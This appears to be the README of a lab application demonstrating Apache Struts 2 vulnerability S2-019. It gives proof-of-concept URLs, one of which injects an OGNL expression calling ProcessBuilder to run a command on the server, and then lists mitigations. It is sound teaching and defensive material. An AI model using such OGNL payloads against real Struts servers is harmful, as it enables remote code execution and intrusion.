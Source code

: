 # S2-019 Vulnerability Demonstration

## Overview
This application demonstrates the Apache Struts 2 vulnerability related to **Dynamic Method Invocation (DMI)**. By default, DMI is enabled in Struts 2, allowing attackers to exploit improperly sanitized method calls, leading to potential remote code execution or unauthorized access.

## How the Vulnerability is Exploited

### Proof of Concept (PoC)
1. **Simple Expression Evaluation**:
   - Access the following URL to evaluate an OGNL expression:
     ```
     http://localhost:8080/example/index.action?method:%25{3*4}
     ```
   - This evaluates the OGNL expression `%{3*4}` and returns the result.

2. **Remote Command Execution**:
   - Access the following URL to execute a system command:
     ```
     http://localhost:8080/example/index.action?method:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'calc'})).start()}
     ```
   - This executes the `calc` command on the server.

## Mitigation
To secure the application:

1. **Disable Dynamic Method Invocation**:
   - Set `struts.enable.DynamicMethodInvocation` to `false` in `struts.xml`.

2. **Validate Input**:
   - Ensure all user input is properly validated and sanitized to prevent OGNL injection.

3. **Upgrade Struts**:
   - Use a patched version of Apache Struts 2 where this vulnerability is fixed.

## Disclaimer
This application is for educational purposes only. Exploiting vulnerabilities without proper authorization is illegal and unethical.